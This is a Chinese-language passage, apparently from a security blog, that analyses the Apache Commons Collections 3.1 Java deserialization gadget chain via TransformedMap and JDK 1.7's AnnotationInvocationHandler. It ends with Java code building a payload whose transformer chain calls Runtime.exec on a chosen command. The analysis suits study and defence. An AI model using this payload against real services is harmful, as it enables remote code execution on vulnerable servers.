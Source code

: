 在`TransformedMap`的`checkSetValue`方法中调用了`transform`方法。

`commons-collections-3.1.jar!/org/apache/commons/collections/map/AbstractInputCheckedMapDecorator.class`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190925175059.png)

在内部类`MapEntry`中的`setValue`方法中调用了`checkSetValue`。

`jdk1.7.0_21.jdk/Contents/Home/jre/lib/rt.jar!/sun/reflect/annotation/AnnotationInvocationHandler.class`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190925180533.png)

在jdk1.7中找到了这样一个入口点，我们需要保证`var5`即`.entrySet().iterator().next()`返回的对象是`org.apache.commons.collections.map.AbstractInputCheckedMapDecorator.MapEntry`的实例化。

`commons-collections-3.1.jar!/org/apache/commons/collections/map/AbstractInputCheckedMapDecorator.class`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190925181308.png)

首先是next。

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190925181439.png)

然后是iterator。

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190925192012.png)

最后是entrySet。

在找到整条利用链之后，就可以构造exp了。

```java
public static Object getObject(String command) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException {
  Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
      "getMethod",
      new Class[]{String.class, Class[].class}, //getMethod方法的参数的类型
      new Object[]{"getRuntime", new Class[0]} //调用getMethod方法时要传的参数
    ), //返回java.lang.Runtime.getRuntime()
    new InvokerTransformer(
      "invoke",
      new Class[]{Object.class, Object[].class},
      new Object[]{null, new Object[0]}
    ), //返回一个Runtime对象
    new InvokerTransformer(
      "exec",
      new Class[]{String.class},
      new Object[]{command} //转化为字符串数组
    )
  };
  Transformer chainedTransformer = new ChainedTransformer(transformers);

  Map map = new HashMap();
  map.put("value", "avalue"); //key的值必须是value
  Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

  Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler"); //类无法直接声明，需要反射调用
  Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
  constructor.setAccessible(true);
  Object object = constructor.newInstance(Target.class, transformedMap);
  return object;
```